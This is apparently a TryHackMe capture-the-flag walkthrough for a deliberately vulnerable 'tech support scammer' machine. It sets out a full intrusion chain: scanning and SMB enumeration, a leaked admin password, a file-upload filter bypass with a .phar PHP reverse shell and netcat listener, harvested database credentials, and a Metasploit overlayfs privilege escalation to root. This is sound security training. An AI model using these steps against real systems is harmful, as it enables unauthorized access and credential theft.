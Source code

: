 ```yaml
---

title: Walkthrough - Tech_Supp0rt 1
published: true
---
```


RCE, File Upload, sudo, custom. Hacking into a scammer's under-development website to foil their plans.

[https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)

* * *

## Notes

- ``sudo nmap -sC -sV -sT -O -p22,80,139,445 10.10.65.37``

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2.0
OS details: Linux 3.2.0
Network Distance: 4 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-08-07T20:57:51
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-08-08T02:27:51+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
```

We find a few directories with gobuster ``/test``, which is the site the scammer points their victims to, and a ``/wordpress`` site.

- ``smbclient -L`` and checking ``websvr`` we find ``enter.txt`` with some creds

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

It is missing the wordpress creds though.

Checking ``/wp-login.php`` and the blog posts on the website we find a username ``support``

lets check out /subrion

- ``gobuster dir -u http://10.10.249.90/subrion -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 100 --no-error -b 301,302,404``

- end up finding the panel @ ``http://techsupport.thm/subrion/panel.php`` but we have to get the magical formula for the password. I am assuming this is "cooked" with cyberchef

![0xskar](/assets/techsupp0rt1-01.png)

- now we have creds ``admin:Scam2021``
- nagivate to uploads and upload a revshell. since .htaccess disallowes certain file extensions we are using a pentestmoney php rev shell that has the ``.phar`` file extension.
- one uploaded visit ``http://techsupport.thm/subrion/uploads/shell.phar`` after setting up listener ``rlwrap nc -lvnp 6666``

- found some things running linpeas.sh

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php                                                                                     
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
```

```
#   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.16 is a vulnerable build.
```


* * * 

## What is the root flag?

- ``linux/local/cve_2021_3493_overlayfs`` in msfconsole and cat root.txt

* * * 

